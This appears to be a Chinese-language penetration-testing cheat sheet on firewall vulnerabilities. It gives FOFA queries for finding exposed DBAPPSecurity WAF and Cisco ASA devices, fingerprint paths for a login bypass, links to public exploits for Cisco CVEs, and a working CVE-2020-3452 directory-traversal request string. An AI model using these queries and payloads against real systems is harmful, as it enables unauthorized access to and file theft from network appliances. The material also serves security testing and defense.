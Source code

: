 ### 0x03 防火墙

#### 安恒 明御WEB应用防火墙 

FOFA：

```
app="安恒信息-明御WAF"
```

##### report.php 任意用户登录✅

漏洞指纹：

```
/report.m?a=rpc-timed
/system.m?a=reserved
```

#### Cisco ASA

```
app="CISCO-ASA-5520"
```

##### 拒绝服务/敏感信息获取 CVE-2018-0296

exp：

- https://github.com/yassineaboukir/CVE-2018-0296
- https://github.com/milo2012/CVE-2018-0296

##### 任意文件删除 CVE-2020-3187

exp：

- https://packetstormsecurity.com/files/158648/Cisco-Adaptive-Security-Appliance-Software-9.7-Arbitrary-File-Deletion.html

##### 目录穿越/任意文件读取 CVE-2020-3452

漏洞影响

```
Cisco ASA 设备影响版本：
<9.6.1
9.6 < 9.6.4.42
9.71
9.8 < 9.8.4.20
9.9 < 9.9.2.74
9.10 < 9.10.1.42
9.12 < 9.12.3.12
9.13 < 9.13.1.10
9.14 < 9.14.1.10
```

```
/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../
```
